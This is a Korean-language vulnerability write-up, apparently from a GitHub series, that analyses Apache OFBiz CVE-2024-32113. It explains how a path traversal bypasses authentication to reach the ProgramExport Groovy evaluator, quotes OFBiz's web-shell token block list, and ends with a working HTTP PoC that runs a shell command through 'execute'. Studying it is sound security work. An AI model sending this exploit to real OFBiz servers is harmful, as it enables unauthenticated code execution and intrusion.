# Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)

> 🔖 **Apache OFBiz 1-Day 취약점 살펴보기**
> 1. [Apache OFBiz 1-Day 취약점 살펴보기: 개요 (1/7)](/README.md)
> 2. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-32113 (2/7)](/02.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-32113/README.md)
> 3. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-36104 (3/7)](/03.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-36104/README.md)
> 4. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-38856 (4/7)](/04.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-38856/README.md) 
> 5. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45195 (5/7)](/05.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45195/README.md) 
> 6. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-45507 (6/7)](/06.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-45507/README.md) 
> 7. [Apache OFBiz 1-Day 취약점 살펴보기: CVE-2024-47208 (7/7)](/07.%20Apache%20OFBiz%201-Day%20Analysis%20-%20CVE-2024-47208/README.md) 

# Introduction

Apache OFBiz에서 발생된 1-Day 취약점 중 먼저 살펴볼 취약점은 `CVE-2024-32113` 입니다. 해당 취약점은 OFBiz 버전 18.12.12 이하에서 발생하는 Path Traversal 취약점으로, OFBiz 프레임워크의 URL 요청에 대한 컨트롤러(Controller)와 뷰(View)의 처리 과정에서 발생하는 취약점 입니다.

> 💿 Apache OFBiz 18.12.12 Download Link
>
> [Apache Download Mirrors - v18.12.12 Download Link](https://www.apache.org/dyn/closer.lua/ofbiz/apache-ofbiz-18.12.12.zip)

## Vulnerability Detail

| CVE | CVE-2024-32113 |
| --- | --- |
| Vulnerability | Path Traversal |
| CVSS(3.x) | `CRITICAL` 9.8 |
| Product | Apache OFBiz |
| Version | <= 18.12.12 |
| Link | [`https://nvd.nist.gov/vuln/detail/CVE-2024-32113`](https://nvd.nist.gov/vuln/detail/CVE-2024-32113) |
| Description | Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal') vulnerability in Apache OFBiz.This issue affects Apache OFBiz: before 18.12.13. Users are recommended to upgrade to version 18.12.13, which fixes the issue. |

# Analysis

이 취약점은 Apache OFBiz 프레임워크의 버전 18.12.12 이하에서 발생하는 경로 조작(Path Traversal) 취약점입니다. 해당 취약점의 주요 원인은 OFBiz의 URI 요청 처리 과정에서 사용자 입력값에 대한 충분한 검증이 이루어지지 않아 발생합니다.

## URI 처리 메커니즘

Apache OFBiz는 URI 요청을 처리하기 위해 컨트롤러(Controller)와 뷰(View) 매핑 메커니즘을 사용합니다. 이 메커니즘은 [`RequestHandler.java`](https://github.com/apache/ofbiz-framework/blob/43fd8328bc3dcff24e29b839c09cd632e90cb5c8/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/RequestHandler.java#L273) 에서 처리되며, 사용자가 요청한 URI 경로를 컨트롤러 매핑 파일에 정의된 뷰 템플릿으로 연결합니다.

예를 들어, `/webtools/control/main/showDateTime` URI로 요청을 수행할 경우 변수 `path`, `requestUri`, `overrideViewUri` 는 다음의 값이 셋팅 됩니다.

- `path` /main/show/DateTime
- `requestUri` main
- `overrideViewUri` showDateTime



요청한 URI(`/webtools/control/main/showDateTime`)는 변수 `path` 로 초기화되고, 나머지 변수 `requestUri` 와 `overrideViewUri` 는 메서드 `getRequestUri`, `getOverrideViewUri` 에 변수 `path` 를 전달하여 초기화하는 것을 확인할 수 있습니다.

`getRequestUri` 메서드는 인자로 전달받은 변수 `path` 를 `/` 문자로 분할하고, 이후 첫 번째 요소를 반환하고 있습니다.



그 다음 `getOverrideViewUri` 메서드는 `path`를 `/`로 분할한 후 첫 번째 요소를 제거하고, 남은 요소들을 `/`로 연결하여 반환합니다. (요소가 한 개만 남은 경우 그대로 반환)



이후 로직은 요청 URI에 대한 인증 검사를 수행하게 됩니다. 이때, 인증 검사는 `overrideViewUri` 의 값(`showDateTime`)이 아닌 `requestUri` 값(`main`)에 대해 인증을 수행하는 것을 확인할 수 있습니다.



반면에, 뷰(View) 렌더링은 인증을 수행하지 않은 `overrideViewUri` 의 값(`showDateTime`)이 렌더링 되는 것을 확인할 수 있습니다.



결과적으로, 공격자는 인증되지 않은 컨트롤러(`requestUri`)를 통해 인증된 뷰 맵(`overrideViewUri`)을 실행시키는 방법으로 경로 접근 제한을 우회할 수 있습니다. 

다음으로 살펴볼 `ProgramExport` 서비스는 이 취약점을 통해 공격자가 접근할 수 있는 주요 대상 중 하나입니다.

## ProgramExport 서비스

`ProgramExport` 는 `controller.xml` 에 `<request-map>` 으로 정의된 서비스로, URI `ProgramExport` 로 요청이 가능합니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 일부

```xml
<request-map uri="ProgramExport">
    <security https="true" auth="true"/>
    <response name="success" type="view" value="ProgramExport"/>
    <response name="error" type="view" value="ProgramExport"/>
</request-map>
```

위 `ProgramExport` 서비스가 정의된 내용을 살펴 보면, `auth` 속성이 `true` 로 되어 있으므로, 인증되지 않은 사용자(비 로그인 상태)가 `/webtools/control/ProgramExport` 로 요청을 수행할 경우 다음과 같이 로그인 페이지가 렌더링됩니다.



반면에, 로그인 상태로 요청을 수행할 경우 `ProgramExport` 서비스의 뷰를 렌더링하기 위해, 해당 서비스에 정의된 아래의 뷰가 렌더링됩니다.

```xml
<response name="success" type="view" value="ProgramExport"/>
<response name="error" type="view" value="ProgramExport"/>
```

이 뷰는 같은 `controller.xml` 파일 내 `<view-map>` 으로 정의되어 있는 것을 확인하실 수 있습니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 일부

```xml
<view-map name="ProgramExport" type="screen" page="component://webtools/widget/EntityScreens.xml#ProgramExport"/>
```

이어서 해당 `<view-map>` 요소의 `page` 값 즉, 컴포넌트 `EntityScreens.xml` 의 `ProgramExport` 스크린 위젯(`type="screen"`)이 실행되는 것을 확인할 수 있으며, 해당 `ProgramExport` 스크린 위젯은 다음과 같이 정의되어있습니다.

🔍 /framework/webtools/widget/EntityScreens.xml 파일 일부

```xml
<screen name="ProgramExport">
    <section>
        <actions>
            <set field="titleProperty" value="PageTitleEntityExportAll"/>
            <set field="tabButtonItem" value="programExport"/>
            <script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
        </actions>
        <widgets>
            <decorator-screen name="CommonImportExportDecorator" location="${parameters.mainDecoratorLocation}">
                <decorator-section name="body">
                     <screenlet>
                        <include-form name="ProgramExport" location="component://webtools/widget/MiscForms.xml"/>
                    </screenlet>
                    <screenlet>
                        <platform-specific>
                            <html><html-template location="component://webtools/template/entity/ProgramExport.ftl"/></html>
                        </platform-specific>
                    </screenlet>
                </decorator-section>
            </decorator-screen>
        </widgets>
    </section>
</screen>
```

위 정의된 코드를 살펴보면 `<script>` 요소 내 `location` 속성 값에 해당하는 groovy 스크립트를 실행하는 것을 확인할 수 있습니다.

```xml
<script location="component://webtools/groovyScripts/entity/ProgramExport.groovy"/>
```

위 groovy 스크립트는 다음과 같습니다.

🔍 /framework/webtools/groovyScripts/entity/ProgramExport.groovy 파일 일부

```groovy
// 중략

if (!parameters.groovyProgram) {
    groovyProgram = '''
		// 중략
'''
    parameters.groovyProgram = groovyProgram
} else {
    groovyProgram = parameters.groovyProgram
}

// Add imports for script.
def importCustomizer = new ImportCustomizer()
importCustomizer.addImport("org.apache.ofbiz.entity.GenericValue")
importCustomizer.addImport("org.apache.ofbiz.entity.model.ModelEntity")
def configuration = new CompilerConfiguration()
configuration.addCompilationCustomizers(importCustomizer)

Binding binding = new Binding()
binding.setVariable("delegator", delegator)
binding.setVariable("recordValues", recordValues)

ClassLoader loader = Thread.currentThread().getContextClassLoader()
def shell = new GroovyShell(loader, binding, configuration)

if (UtilValidate.isNotEmpty(groovyProgram)) {
    try {
        // Check if a webshell is not uploaded but allow "import"
        if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
            logError("================== Not executed for security reason ==================")
            request.setAttribute("_ERROR_MESSAGE_", "Not executed for security reason")
            return
        }
        shell.parse(groovyProgram)
        shell.evaluate(groovyProgram)
        recordValues = shell.getVariable("recordValues")
        xmlDoc = GenericValue.makeXmlDocument(recordValues)
        context.put("xmlDoc", xmlDoc)
    } catch(MultipleCompilationErrorsException e) {
        request.setAttribute("_ERROR_MESSAGE_", e)
        return
    } catch(groovy.lang.MissingPropertyException e) {
        request.setAttribute("_ERROR_MESSAGE_", e)
        return
    } catch(IllegalArgumentException e) {
        request.setAttribute("_ERROR_MESSAGE_", e)
        return
    } catch(NullPointerException e) {
        request.setAttribute("_ERROR_MESSAGE_", e)
        return
    } catch(Exception e) {
        request.setAttribute("_ERROR_MESSAGE_", e)
        return
    }
}
```

위의 코드를 자세히 살펴보면, `ProgramExport.groovy` 스크립트는 다음과 같은 작업을 수행합니다.

✅ `ProgramExport.groovy` 스크립트 설명

1. 파라미터로 전달된 `groovyProgram`이 없으면 기본 스크립트 템플릿을 제공하고, 있으면 해당 스크립트를 사용합니다.
    
    ```groovy
    if (!parameters.groovyProgram) {
        groovyProgram = '''
    		// 중략
        '''
        parameters.groovyProgram = groovyProgram
    } else {
        groovyProgram = parameters.groovyProgram
    }
    ```
    
2. `groovyProgram` 에 대한 유효성 검사를 수행합니다.
    
    ```groovy
    if (!SecuredUpload.isValidText(groovyProgram, ["import"])) {
    ```
    
3. 유효성 검사 통과 후 사용자 입력 스크립트를 실행합니다.
    
    ```groovy
    shell.parse(groovyProgram)
    shell.evaluate(groovyProgram)
    ```
    
4. 최종적으로 스크립트 실행 결과를 파싱한 후, 결과를 XML 문서로 변환합니다.
    
    ```groovy
    recordValues = shell.getVariable("recordValues")
    xmlDoc = GenericValue.makeXmlDocument(recordValues)
    context.put("xmlDoc", xmlDoc)
    ```
    

여기서 `isValidText` 함수는 다음의 `SecuredUpload.java` 에 정의되어 있습니다.

🔍 /framework/security/src/main/java/org/apache/ofbiz/security/SecuredUpload.java 파일 일부

```java
public class SecuredUpload {

    private static final String MODULE = SecuredUpload.class.getName();
    private static final List<String> DENIEDFILEEXTENSIONS = getDeniedFileExtensions();
    private static final List<String> DENIEDWEBSHELLTOKENS = getDeniedWebShellTokens();
    private static final Integer MAXLINELENGTH = UtilProperties.getPropertyAsInteger("security", "maxLineLength", 10000);

    public static boolean isValidText(String content, List<String> allowed) throws IOException {
        return content != null ? DENIEDWEBSHELLTOKENS.stream().allMatch(token -> isValid(content, token.toLowerCase(), allowed)) : false;
    }
```

이때, 유효성 검사 수행을 위한 `DENIEDWEBSHELLTOKENS` 의 값은 `security.properties` 에 정의되어 있습니다.

🔍 /framework/security/config/security.properties 파일 일부

```yaml
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate

```

따라서, `ProgramExport` 뷰 맵이 렌더링 될 경우 `ProgramExport.groovy` 스크립트가 실행되므로, 파라미터 `groovyProgram` 를 전달하여 임의 코드가 담긴 groovy 스크립트를 실행시킬 수 있습니다. 다만, 입력한 파라미터 `groovyProgram` 은 `isValidText` 메서드에 의해 유효성 검사를 수행하므로 `DENIEDWEBSHELLTOKENS` 에 정의된 키워드가 포함되지 않도록 해야 합니다.

# Exploit

위 분석 내용을 토대로 `ProgramExport` 뷰 맵을 실행시켜 `ProgramExport.groovy` 스크립트를 실행하기 위해 다음의 과정을 수행합니다.

## 경로 조작

URI 처리 메커니즘을 이용하여 다음의 URI를 구성합니다.

```
/webtools/control/main/test/../ProgramExport
```

해당 URI로 요청을 수행할 경우 [`RequestHandler.java`](https://github.com/apache/ofbiz-framework/blob/43fd8328bc3dcff24e29b839c09cd632e90cb5c8/framework/webapp/src/main/java/org/apache/ofbiz/webapp/control/RequestHandler.java#L273) 는 다음과 같이 처리 됩니다. 변수 `path`, `requestUri`, `overrideViewUri`는 아래와 같이 값이 설정됩니다.

- `path` /main/ProgramExport
- `requestUri` main
- `overrideViewUri` ProgramExport



이후 인증 처리 과정에서는 `requestUri` 의 값 `main` 을 검사하게 됩니다. 



즉, `main` 서비스의 `auth` 속성 값이 다음과 같이 `false` 이므로, 인증을 우회할 수 있습니다.

🔍 /framework/webtools/webapp/webtools/WEB-INF/controller.xml 파일 내 일부

```xml
<request-map uri="main">
    <security https="true" auth="false"/>
    <response name="success" type="view" value="main"/>
</request-map>
```

그 다음 실제 렌더링 되는 뷰(`renderView`)는 다음과 같이 `ProgramExport` 가 전달되는 것을 확인할 수 있습니다.



따라서, 위 경로 조작 과정을 이용하여 최종적으로 `ProgramExport` 뷰를 인증되지 않은 사용자가 렌더링할 수 있게 됩니다.

## 임의 명령어 실행

`ProgramExport` 뷰가 렌더링 되면, 다음과 같이 해당 뷰 정의에 의해 `ProgramExport.groovy` 가 실행됩니다.



이때, `ProgramExport.groovy` 스크립트를 보면 `groovyProgram` 파라미터를 `evaluate` 함수의 인자로 전달하여 스크립트를 실행하는 것을 확인할 수 있습니다. 다만, 입력한 `groovyProgram` 파라미터는 `SecuredUpload.IsValidText` 함수에 의해 유효성 검사를 수행하고 있습니다.



그러나 유효성 검사 필터링 값(`security.properties` 내 `deniedWebShellTokens`)을 보면 `execute` 함수가 정의되어 있지 않습니다



따라서 `groovyProgram` 파라미터는 아래의 코드로 구성하여 임의 명령어를 실행시킬 수 있습니다.

```groovy
throw new Exception('ls -al'.execute().text);
```

## PoC

위 내용을 토대로 다음의 HTTP Request 패킷을 전달합니다.

```
POST /webtools/control/main/test/../ProgramExport HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 61

groovyProgram=throw+new+Exception('ls+-al'.execute().text);
```

그 결과 다음과 같이 임의 명령어(`ls -al`)가 실행되어 응답 데이터에 반환되는 것을 확인할 수 있습니다.

